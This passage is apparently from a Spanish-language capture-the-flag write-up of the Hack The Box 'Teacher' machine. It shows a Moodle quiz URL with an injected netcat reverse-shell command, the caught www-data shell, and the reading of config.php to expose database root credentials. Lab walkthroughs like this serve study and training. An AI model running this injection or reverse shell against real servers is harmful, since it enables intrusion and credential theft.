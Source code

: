 ```url
http://teacher.htb/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&bly=(date;%20nc%2010.10.16.6%20443%20-e%20/bin/bash)
```


### Privesc To Giovanni

Si miramos nuestro listener, veremos que tenemos una shell, le heremos el tratamiento de la tty para que sea interactiva.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from teacher.htb [10.10.10.153] 48174
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script -c bash /dev/null
Script started, file is /dev/null
www-data@teacher:/var/www/html/moodle/question$
```

Vemos que hay un usuario giovanni, vamos a intentar reutilizar la contraseña que teniamos.

```bash
www-data@teacher:/var/www/html/moodle/question$ su giovanni    
Password: 
su: Authentication failure
www-data@teacher:/var/www/html/moodle/question$
```

No es válida, vamos a tener que enumerar un poco más. Quiero intentar enumerar la base de datos del moodle, vamos a leer el archivo de configuración que se conecta a la base de datos para ver si hay contraseñas en claro.

```php
www-data@teacher:/var/www/moodledata/localcache$ cat /var/www/html/moodle/config.php                                                                                                [446/446]
<?php  // Moodle configuration file                                                                                                                                                          
                                                                                                                                                                                             
unset($CFG);                                                                                                                                                                                 
global $CFG;                                                                                                                                                                                 
$CFG = new stdClass();                                                                                                                                                                       
                                                                                                                                                                                             
$CFG->dbtype    = 'mariadb';                                                                                                                                                                 
$CFG->dblibrary = 'native';                                                                                                                                                                  
$CFG->dbhost    = 'localhost';                                                                                                                                                               
$CFG->dbname    = 'moodle';                                                                                                                                                                  
$CFG->dbuser    = 'root';                                                                                                                                                                    
$CFG->dbpass    = 'Welkom1!';                                                                                                                                                                
$CFG->prefix    = 'mdl_';                                                                                                                                                                    
$CFG->dboptions = array (                                                                                                                                                                    
  'dbpersist' => 0,                                                                                                                                                                          
```